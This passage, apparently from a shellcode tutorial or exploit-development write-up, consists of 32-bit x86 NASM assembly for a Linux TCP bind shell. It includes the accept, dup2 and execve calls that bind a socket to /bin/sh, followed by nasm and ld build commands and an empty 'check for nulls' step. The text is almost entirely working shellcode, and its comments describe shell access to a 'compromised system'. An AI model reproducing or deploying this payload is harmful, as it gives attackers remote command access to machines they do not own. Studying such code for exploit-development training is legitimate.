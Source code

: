 ```nasm
    mov ecx, esp    ; ecx contains pointer to listen() args
    int 0x80
 
    ; Accept
    ; Function prototype:
    ;   int accept(int sockfd, struct sockaddr *addr,
    ;     socklen_t *addrlen)
    ; Purpose:
    ;   accepts a connection on a socket and returns a new
    ;   file descriptor referring to the socket which is used
    ;   to bind stdin, stdout and stderr to the local terminal
    mov al, 0x66    ; socketcall()
    mov bl, 0x5     ; accept() call number for socketcall
    push edx        ; push socklen_t * addrlen
    push edx        ; push struct sockaddr *addr
    push esi        ; push socket file descriptor
    mov ecx, esp    ; ecx contains pointer to accept() args
    int 0x80
 
    ; Dup2
    ; Function prototype:
    ;   int dup2(int oldfd, int newfd)
    ; Purpose:
    ;   duplicate a file descriptor, copies the old file
    ;   descriptor to a new one allowing them to be used
    ;   interchangably, this allows all shell ops to/from the
    ;   compomised system
    mov ebx, eax    ; ebx contains descriptor of accepted socket
    xor ecx, ecx    ; zero ecx register
    mov cl, 0x3     ; set counter
dupfd:
    dec cl          ; decrement counter
    mov al, 0x3f    ; dup2()
    int 0x80
    jne dupfd       ; loop until 0
 
    ; Execve
    ; Function descriptor:
    ;   int execve(const char *fn, char *const argv[],
    ;     char *const envp[])
    ; Purpose:
    ;   to execute a program on a remote and/or compromised
    ;   system. There is no return from using execve therefore
    ;   an exit syscall is not required
    xor eax, eax       ; zero eax register
    push edx           ; push null
    push 0x68732f6e    ; hs/n
    push 0x69622f2f    ; ib//
    mov ebx, esp       ; ebx contains address of //bin/sh
    push edx           ; push null
    push ebx           ; push address of //bin/sh
    mov ecx, esp       ; ecx pointer to //bin/sh
    push edx           ; push null
    mov edx, esp       ; edx contains pointer to null
    mov al, 0xb        ; execve()
    int 0x80
```
Build the code:
```
$ nasm -felf32 -o tcpbindshell.o tcpbinshell.asm
$ ld -o tcpbindshell tcpbindshell.o
```
Check for nulls:
```
```